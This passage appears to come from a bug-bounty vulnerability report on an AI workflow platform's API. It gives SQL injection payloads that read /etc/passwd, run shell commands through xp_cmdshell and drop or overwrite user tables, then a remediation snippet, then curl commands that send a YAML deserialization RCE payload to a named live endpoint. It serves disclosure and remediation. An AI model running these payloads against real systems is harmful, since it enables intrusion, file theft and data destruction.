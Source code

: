 ```sql
'; SELECT SLEEP(5)--

-- PostgreSQL file access (CVE-2025-1094)
'; SELECT pg_read_file('/etc/passwd')--
'; SELECT lo_export((SELECT convert_from(pg_read_file('/etc/passwd'),'UTF8')),'/tmp/passwd')--

-- MySQL file access
'; SELECT LOAD_FILE('/etc/passwd')--

-- MSSQL command execution
'; EXEC xp_cmdshell('whoami')--

-- Destructive payloads
'; DROP TABLE users--
'; UPDATE users SET password='hacked' WHERE id=1--
```

#### **Remediation:**
```python
# Secure authentication with parameterized queries
import sqlite3

def authenticate_user(username, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Use parameterized query
    cursor.execute(
        "SELECT * FROM users WHERE username = ? AND password = ?",
        (username, password)
    )
    
    user = cursor.fetchone()
    conn.close()
    return user
```

### **2. YAML Deserialization Remote Code Execution (CVSS 9.8)**

#### **Submission Summary:**
- **Type**: Insecure Deserialization via YAML
- **Impact**: Remote Code Execution (RCE)
- **Evidence**: Command execution confirmed (`"result": "root"`)
- **CVE Mapping**: CVE-2020-17453 (PyYAML), CVE-2017-18342 (Ruby YAML)
- **Business Impact**: Complete server compromise, data breach

#### **Live Exploitation Proof:**
```bash
# Step 1: Basic YAML processing
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "test: value"}'

# Step 2: RCE payload
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "!!python/object/apply:subprocess.call [[\"whoami\"]]"}'

# Expected Response:
{
  "status": "success",
  "result": "root",
```